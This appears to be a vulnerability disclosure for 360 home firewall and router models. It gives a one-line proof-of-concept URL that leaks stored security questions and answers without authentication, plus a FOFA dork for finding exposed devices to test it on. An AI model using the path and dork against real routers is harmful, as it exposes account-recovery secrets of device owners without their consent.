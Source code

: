 ## 0x00 Summary

In the 360 ​​home firewall and router, there is an unauthorized access in safe_question_dump.cgi, which leads to the leakage of the password question and answer of the anti-rub network firewall 



## 0x01 Tested Versions

360 Security Router-Telecom Version T3, 360 Home Firewall-Router 5C


## 0x02 PoC

Only need to visit `http://www.test.com/app/safety_wireless/webs/images/safe_question_dump.cgi`   to disclose sensitive information


## 0x03 Vulnerability test example

Use the fofa search engine to retrieve the target, such as using the following dork syntax to get the target of the specified version.
```
dork: "360家庭防火墙"
```

![image-20210426150941427](360_Unauthorized_secret_security_answer_leaked.assets/image-20210426150941427.png)

Next, select the T3 version or the C5 version from the results to test the poc



![image-20210426151354829](360_Unauthorized_secret_security_answer_leaked.assets/image-20210426151354829.png)

![image-20210426151904547](360_Unauthorized_secret_security_answer_leaked.assets/image-20210426151904547.png)

## 0x04 Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Fei-yi Gao

En-Ze Wang

Zhen-hua Wang 

